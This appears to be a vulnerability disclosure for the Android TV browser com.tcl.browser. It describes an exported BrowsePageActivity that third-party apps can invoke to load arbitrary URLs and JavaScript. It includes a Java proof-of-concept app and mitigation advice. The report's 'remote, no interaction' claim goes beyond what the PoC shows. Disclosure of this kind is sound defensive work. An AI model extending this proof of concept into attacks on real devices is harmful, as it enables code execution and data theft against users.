 ## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.tcl.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary code on the victim's device without requiring any permissions.

### Application Details:
- **Application Name:** 'Browser TV Web - BrowseHere' com.tcl.browser
- **Version:** 6.49.059_a62ef28f_230730_gp
- **Component:** com.tcl.browser.portal.browse.activity.BrowsePageActivity

### Vulnerability Details:

- **Vulnerability Type:** Remote Code Execution (RCE)
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None
- **Severity:** High

### Description:

The `com.tcl.browser.portal.browse.activity.BrowsePageActivity` activity in the `com.tcl.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.tcl.browser` application.

This vulnerability is particularly concerning because:
- The victim does not need to grant any special permissions to any installed applications.
- The attack can be initiated remotely without user interaction.

### Proof of Concept (PoC):

To demonstrate the vulnerability, one can create a simple Android app that invokes the exported `BrowsePageActivity` activity.

package com.example.d3m0;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Create the intent to start the BrowsePageActivity of com.tcl.browser app
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.tcl.browser", "com.tcl.browser.portal.browse.activity.BrowsePageActivity"));

        // Set the URL data you want to pass (for example "http://www.example.com")
        intent.setData(Uri.parse("http://www.example.com"));

        // Start the activity
        startActivity(intent);
        finish();
    }
}


### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.tcl.browser` app.
- Perform any action that the `com.tcl.browser` app can do, potentially leading to further device exploitation or data theft.

### Mitigation and Recommendations:

1. **Restrict Activity Export:** Do not export activities unless necessary. If required, implement proper authorization checks to ensure that only legitimate entities can invoke it.


**Note:**

### The programmatic removal of JavaScript Tnterfaces post setting the user agent in the WebView limits leveraging certain methods.

````
webView.removeJavascriptInterface("searchBoxJavaBridge_");
webView.removeJavascriptInterface("accessibility");
webView.removeJavascriptInterface("accessibilityTraversal");

````


